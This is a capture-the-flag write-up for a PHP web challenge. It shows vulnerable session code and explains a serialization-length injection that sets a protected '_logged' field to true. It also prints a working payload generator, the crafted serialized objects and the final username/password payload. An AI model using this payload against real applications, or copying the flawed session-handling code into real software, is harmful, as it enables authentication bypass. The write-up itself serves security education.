

Here we can see the gadget we want to use:
```php
if (isset($_POST['submit'])) {
    $currentUser = new User($_POST['username'], $_POST['password']);
    $isLogged = $currentUser->getUsername() === 'admin' && 
        hash('sha512',$currentUser->getPassword()) === 'b3b7b663909f8e9b4e2a581337159e8a5e468c088ec802cb99a027c1dcbefb7d617fcab66ab4402d4617cde33f7fce93ae3c4e8f77aec2bb5f8c7c8aec3bbc82'; // don't try to bruteforce me this is useless
    $currentUser->setLogged($isLogged);
    $errorMsg = ($isLogged) ? '' : 'Invalid username or password.';
    storeUserSession($currentUser);
} else {
    $currentUser = getUserSession();
}

if ($currentUser->isLogged()) {
    echo 'you are logged in! congratz, the flag is: ' . $FLAG;
    die();
}
```

As you can see, our mission is to override `_logged` and set it to true.

The vulnerability in the challenge is the overflow, because as you can see here:
```php
function storeUserSession($user)
{
    $serialized_value = serialize($user);
    // avoid the storage of null byte, replace it with \0 just in case some session storage don't support it
    // this is done because protected object are prefixed by \x00\x2a\x00 in php serialisation
    $data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $serialized_value);
    $_SESSION['user'] = $data;
}

function getUserSession()
{
    $user = null;
    if (isset($_SESSION['user'])) {
        $data = $_SESSION['user'];
        $serialized_user = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
        $user = unserialize($serialized_user);
    } else {
        $user = new User('guest', '');
    }
    return $user;
}
```
Before deserialization, it replaces all `\0\0\0` with `chr(0) . "*" . chr(0)`, which takes 3 bytes less.

So, if for example we give this as username: `\0\0\0`, the length will be `6`, but after deserialization, the actual length is only 3, so it can "drink" bytes from the rest of the serialized string.

By this way, we can manipulate the string as we wish.

This is the code I've used to create the payload, will explain in details after this snippet.
```php
class User
{
    protected $_username;
    protected $_password;
    protected $_logged = false;
    protected $_email = '';
    
    public function setUsername($username){
    	$this->_username=$username;
    }

    public function setPassword($password){
    	$this->_password=$password;
    }
    
    public function getUsername(){
    	return $this->_username;
    }
    
    public function getPassword(){
    	return $this->_password;
    }
    
    public function isLogged(){
    	return $this->_logged;
    }
}


$user = new User();


$len_username = 30;
$len_email = 45;

$user->setUsername(str_repeat('\0',$len_username));
$user->setPassword('""";s:10:"\0\0\0_logged";b:1;s:12:"\0\0\0_password";s:3:"bla";s:9:"\0\0\0_email";s:' . $len_email . ':"');

echo "username: " . $user->getUsername() ."\n";
echo "password: " . $user->getPassword() ."\n";
// echo str_repeat('-',strlen($user->getUsername()))."\n";
$serialized_user = serialize($user);
$data = str_replace(chr(0) . '*' . chr(0), '\0\0\0', $serialized_user);
echo "regular object:\n";
echo $data."\n";


$serialized_user = str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
echo "after replacement:\n";
echo $serialized_user."\n";

$obj = unserialize($serialized_user);
var_dump($obj);
```

So, regular serialized object will look like this:
```
O:4:"User":4:{s:12:" * _username";s:4:"user";s:12:" * _password";s:3:"bla";s:10:" * _logged";b:0;s:9:" * _email";s:3:"bla";
```
Our mission is to override inside `_username` until the `_password` field, and then in password we can give our malformed payload for `_login`, `_password` and `_email`, and in `_email` we'll override till the end.

So, this is our FINAL malformed serialized object:
```
{s:12:"�*�_username";s:60:"�*��*��*��*��*��*��*��*��*��*�";s:12:"�*�_password";s:87:"""";s:10:"�*�_logged";b:1;s:12:"�*�_password";s:3:"bla";s:9:"�*�_email";s:45:"";s:10:"�*�_logged";b:0;s:9:"�*�_email";s:0:"";}
```

Let's replace all the strings with `-`, so in username there would be 60 `-` and so on:
```
{s:12:"�*�_username";s:60:"------------------------------------------------------------";s:10:"�*�_logged";b:1;s:12:"�*�_password";s:3:"---";s:9:"�*�_email";s:45:"---------------------------------------------";}
```

As you can see, we've got very cute serialized object, which after deserialization gives us this:
```php
object(User) (4) {
  ["_username":protected]=>
  string(60) "�*��*��*��*��*��*��*��*��*��*�";s:12:"�*�_password";s:87:""""
  ["_password":protected]=>
  string(3) "bla"
  ["_logged":protected]=>
  bool(true)
  ["_email":protected]=>
  string(45) "";s:10:"�*�_logged";b:0;s:9:"�*�_email";s:0:""
}
```

So, for summary our payload will be:
```
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=""";s:10:"\0\0\0_logged";b:1;s:12:"\0\0\0_password";s:3:"bla";s:9:"\0\0\0_email";s:45:"
```



**Flag:** ***`B3Carrefull-w1th_Unseri4l1ze`***
